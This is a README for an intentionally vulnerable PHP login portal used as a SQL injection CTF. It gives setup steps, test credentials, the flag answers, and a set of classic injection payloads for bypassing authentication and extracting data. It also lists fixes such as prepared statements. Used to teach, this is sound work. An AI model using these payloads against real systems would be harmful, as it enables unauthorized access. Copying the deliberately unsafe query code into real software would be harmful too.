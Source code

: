 # SQL Injection CTF Challenge

A deliberately vulnerable login system designed for learning SQL injection techniques in a safe environment. This CTF challenge simulates a corporate employee portal with intentionally vulnerable authentication.

## Prerequisites

- PHP 7.4+ with PDO MySQL extension
- MySQL/MariaDB server
- Web server (Apache/Nginx) or PHP built-in server

## Quick Setup

### Manual Setup

#### 1. Database Setup
```bash
# Connect to MySQL as root
mysql -u root -p

# Run the setup script
source setup.sql
```

#### 2. Configure Database Connection
The application uses environment variables for database configuration. You can either:

**Option A: Set Environment Variables**
```bash
export DB_HOST=localhost
export DB_NAME=ctf_sql
export DB_USER=root
export DB_PASS=your_password
```

**Option B: Edit db.php directly**
```php
$host = 'localhost';
$dbname = 'ctf_sql';
$username = 'root';
$password = 'your_password';
```

#### 3. Start the Web Server
```bash
# Using PHP built-in server
php -S localhost:8000

# Or configure your web server to serve the ctf-sqli directory
```

#### 4. Access the Application
Open your browser and navigate to: `http://localhost:8000`

## CTF Challenge

### Objective
Bypass the login authentication using SQL injection to retrieve the hidden CTF flags from the SecureCorp employee portal.

### Available Users (Legitimate Credentials)
- Username: `admin`, Password: `admin`
- Username: `user1`, Password: `password123`
- Username: `test`, Password: `vader`
- Username: `guest`, Password: `DontHackME`
- Username: `superadmin`, Password: `potato` (hidden user)

## SQL Injection Examples

### Basic Authentication Bypass
```
Username: admin' --
Password: anything
```

### Union-Based Injection
```
Username: ' UNION SELECT 1,2,3,4,5 -- 
Password: anything
```

### Boolean-Based Injection
```
Username: admin' AND 1=1 --
Password: anything
```

### Error-Based Injection
```
Username: ' OR 1=1 --
Password: anything
```

### Advanced Techniques

#### Get All Users
```
Username: ' OR 1=1 ORDER BY id --
Password: anything
```

#### Get Specific User Data
```
Username: ' UNION SELECT id,username,password,flag,created_at FROM users WHERE username='admin' --
Password: anything
```

#### Database Information
```
Username: ' UNION SELECT 1,2,3,4,@@version --
Password: anything
```

## CTF Flags

The application contains multiple flags to discover:

1. **flag{sql_injection_master}** - Admin user flag
2. **flag{user_level_access_granted}** - User1 flag
3. **FLAG{TEST_ACCOUNT_COMPROMISED}** - Test user flag
4. **FLAG{GUEST_PRIVILEGES_ESCALATED}** - Guest user flag
5. **FLAG{SUPER_ADMIN_ACCESS_ACHIEVED}** - Hidden superadmin flag

## Security Notes

**IMPORTANT**: This application is intentionally vulnerable for educational purposes only. Never deploy this code in a production environment!

### Vulnerabilities Included:
- No input sanitization
- Direct string concatenation in SQL queries
- No prepared statements
- Error messages exposed
- No password hashing
- SQL injection in login form

### How to Fix (For Learning):
1. Use prepared statements
2. Implement input validation
3. Hash passwords
4. Hide error messages
5. Use parameterized queries

## File Structure

```
ctf-sqli/
├── index.html          # Login form (SecureCorp employee portal)
├── style.css           # Styling for the application
├── login.php           # Vulnerable login handler
├── db.php              # Database connection configuration
├── setup.sql           # Database schema and test data
├── .gitignore          # Git ignore rules
└── README.md           # This file
```

## Learning Objectives

1. Understand SQL injection vulnerabilities
2. Learn common injection techniques
3. Practice manual SQL injection
4. Understand the importance of input validation
5. Learn secure coding practices
6. Experience real-world application security testing

## Troubleshooting

### Common Issues:

1. **Database Connection Failed**
   - Check MySQL service is running
   - Verify credentials in `db.php` or environment variables
   - Ensure database exists

2. **Permission Denied**
   - Check file permissions
   - Ensure web server can read files

3. **PDO Extension Missing**
   - Install PHP PDO MySQL extension
   - Restart web server

4. **Environment Variables Not Working**
   - Check if your web server supports environment variables
   - Fall back to editing `db.php` directly

## Additional Resources

- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [PHP Security Best Practices](https://www.php.net/manual/en/security.php)

